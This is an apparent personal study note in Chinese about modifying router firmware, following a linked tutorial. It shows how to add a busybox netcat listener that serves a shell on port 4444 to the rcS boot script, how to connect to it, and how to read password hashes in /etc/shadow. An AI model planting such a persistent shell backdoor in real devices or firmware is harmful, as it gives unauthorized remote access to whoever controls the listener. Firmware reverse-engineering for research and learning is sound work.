

# 固件处理

## 修改密码
但是很可能busybox里面不包含太多命令，如果必要的话可以用新的busybox代替原本的，但是替换之后固件会变大，这时候可以把web目录里面的帮助文件去掉。

查看/etc/shadow可以查看加密后的密码

## 添加开机启动命令添加shell

查看`/etc/rc.d/rcS`文件在里面添加
`/bin/busybox nc -nlp 4444 -e /bin/busybox sh &`开启一个反弹shell这里需要有nc命令
&是为了确保在后台运行

如果构建固件比原始固件相同或更小则构建成功
` ./build_firmware.sh output_directory/ working_directory/`

在编译extract-firmware的时候要修改很多文件,可以使用vscode里面的替换选项
 

使用`nc -vn 192.168.0.1 4444`进行连接

在这里我用extract-firmware解包失败，也不能打包

https://www.secforce.com/blog/2014/07/reverse-engineer-router-firmware-part-2/

